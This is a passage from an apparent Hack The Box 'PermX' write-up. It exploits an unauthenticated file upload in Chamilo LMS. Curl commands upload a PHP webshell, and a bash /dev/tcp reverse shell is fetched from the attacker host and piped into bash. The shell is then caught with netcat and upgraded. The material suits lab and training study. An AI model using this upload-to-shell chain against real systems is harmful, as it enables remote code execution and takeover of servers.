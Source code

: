 Validate exploit (It works)

```bash
┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ echo '<?php system("id"); ?>' > rce.php

┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.                                                                                                                                                                          
┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Reverse shell

Write webshell

```bash
┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ echo '<?=`$_REQUEST[0]`;' > rce.php

┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

Get reverse shell

```bash
┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ mkdir -p www && cd www && echo "/bin/bash -c 'bash -i >& /dev/tcp/$(pt get lhost)/1111 0>&1'" > index.html && fuser -k 80/tcp 2>/dev/null; python -m http.server 80
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php' --data-urlencode '0=curl 10.10.14.16|bash'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.16] from (UNKNOWN) [10.129.147.24] 37462
bash: cannot set terminal process group (1109): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ /usr/bin/script -qc /bin/bash /dev/null
<load/files$ /usr/bin/script -qc /bin/bash /dev/null^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/PermX]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

<c/lib/javascript/bigupload/files$ export TERM=xterm                     ib/javascript/bigupload/files$
ws 50 columns 209ar/www/chamilo/main/inc/lib/javascript/bigupload/files$ stty row
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
